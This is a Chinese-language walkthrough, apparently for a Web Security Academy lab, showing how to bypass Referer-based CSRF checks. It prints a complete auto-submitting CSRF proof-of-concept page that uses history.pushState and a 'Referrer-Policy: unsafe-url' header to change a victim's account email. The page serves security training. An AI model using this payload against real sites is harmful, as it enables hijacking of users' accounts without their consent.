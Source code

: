 我的是：
history.pushState("", "", "/?https://0ae8003d0469e3dac50a8b0a009e0035.web-security-academy.net")</code></pre>
<br/> 这将导致生成的请求中的Referer标头在查询字符串中包含目标站点的URL，就像前面测试的那样
<pre><code>CSRF完整poc：
&lt;html&gt;
  &lt;!-- CSRF PoC - generated by Burp Suite Professional --&gt;
  &lt;body&gt;
  &lt;script&gt;history.pushState('', '', '/')&lt;/script&gt;
    &lt;form action="https://0ae8003d0469e3dac50a8b0a009e0035.web-security-academy.net/my-account/change-email" method="POST"&gt;
      &lt;input type="hidden" name="email" value="111111&amp;#64;qq&amp;#46;com" /&gt;
      &lt;input type="submit" value="Submit request" /&gt;
    &lt;/form&gt;
    &lt;script&gt;
      history.pushState("", "", "/?https://0ae8003d0469e3dac50a8b0a009e0035.web-security-academy.net")
      document.forms[0].submit();
    &lt;/script&gt;
  &lt;/body&gt;
&lt;/html&gt;
</code></pre>

如果存储该利用漏洞攻击并通过单击"查看利用漏洞攻击"进行测试，则可能会再次遇到"invalid Referer header"错误。这是因为作为一种安全措施，许多浏览器现在默认从Referer头中剥离查询字符串。要覆盖此行为并确保请求中包含完整的URL，请返回利用漏洞攻击服务器并将以下标题添
<pre><code>加到"Head"部分：
Referrer-Policy: unsafe-url
（注意，与普通的Referer头不同）</code></pre>

<hr/>
part3：
完成实验
存储（store）漏洞，然后单击"Deliver to victim"（发送给受害者）

 完成实验




---

